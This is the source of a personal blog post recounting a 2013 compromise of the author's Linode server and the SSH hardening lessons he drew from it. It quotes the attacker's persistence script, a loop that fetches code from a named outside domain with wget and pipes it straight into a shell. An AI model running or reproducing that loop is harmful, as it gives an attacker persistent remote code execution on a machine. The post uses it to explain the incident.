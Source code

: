 ```yaml
---
layout: post
title:  "All systems go."
date:   2013-09-09 03:41:00
---
```


### The backstory.

About a month ago in the early hours of the morning, I got a rather disturbing
email from [Linode](http://linode.com) (the folks who graciously host my various
websites and services). Its subject line went something like this:

> rapture (linode12345) - Terms of Service Violation - Spam

`rapture` was the name of the server running codykrieger.com (superseded by
krieger.io). It also hosted downloads for [gfxCardStatus](http://gfx.io).

Reading the subject line of that message made my stomach churn. As far as I was
aware, I hadn't been sending any spam.

I nervously opened the message, and read the following:

> We have received a report of spam originating from your Linode. We ask that you
> investigate this matter as soon as possible to determine why mailings
> originating from your Linode are being marked as spam. If you were not aware
> that activity of this nature was originating from your Linode, it is likely
> that your Linode has been compromised, and you'll want to take appropriate action.

Yep, it appeared that my server had been compromised. Great.

### The diagnosis.

I quickly shut down the machine, logged into another Linode, and started
copying the contents of `rapture`'s disk into an image that I could poke around
inside to determine the extent of the damage. I eventually stumbled upon a
script, `/usr/bin/smpl`, that was pretty damning. Here's the most interesting
part of the script:

{% highlight bash %}
while [ 1 ];
do
wget -q -O - medobra.ru/resident | sh - &
sleep 300
done
{% endhighlight %}

Yeah, because that's not horrible or anything. Who doesn't like fetching the
contents of arbitrary documents at weird Russian domain names and running the
output directly in a shell?

Even worse was the modification date of this file: `12 Jun 2013`. The
attacker had access to my server for *nearly two months* before anyone noticed.

What a fantastic way to start the day.

Unfortunately, my logs didn't go back far enough to determine when the first
successful malicious login attempt succeeded, and via which user account. I can
only speculate that a botnet managed to brute-force the password on one of the
accounts, and then either used that account's `sudo` privileges (if it had any),
or used an exploit of some kind, to gain root access.

### Lessons learned.

I'm all back up and running now, but I learned a few really valuable lessons
along the way:

- *Make damn sure password authentication for SSH is turned off, and use
  public key authentication instead.* I swore that I had disabled it some time
  ago in favor of using public key authentication exclusively&hellip;but
  apparently not.
- *Use some kind of tool to automatically ban repeated unsuccessful SSH login
  attempts (i.e. Fail2ban).* My logs indicated that I was under attack by an
  absurdly large number of machines on a daily basis, and I was doing nothing
  to stop them preemptively.
- *Set up some kind of early warning system.* Maybe have your servers email/text
  you when someone logs in via SSH, and set up logwatch to email you reports of
  system activity on a regular basis.

I've spent the last month creating an automated server provisioning process
that will allow me to iterate on the quality of my security measures as time
goes on. This process is idempotent, so I can run it on a new or existing
machine, and it'll bring everything up-to-spec without making me start from
scratch. It also sets up all of the initial user accounts, packages, and
services that I need to run, so my setup time for new servers is at an absolute
minimum.

In some kind of sick, twisted way, I guess I have this mysterious havoc-wreaker
to thank for making me about eighty times more security conscious&hellip;but at the
same time, I can't ignore the fact that I just spent a ridiculous amount of time
cleaning up a mess that I had absolutely no desire to clean up.

So, to whoever is responsible for this: you are a terrible human being. I hope
that the rest of your miserable life is peppered by the frequent and repeated
stubbing of your toes.
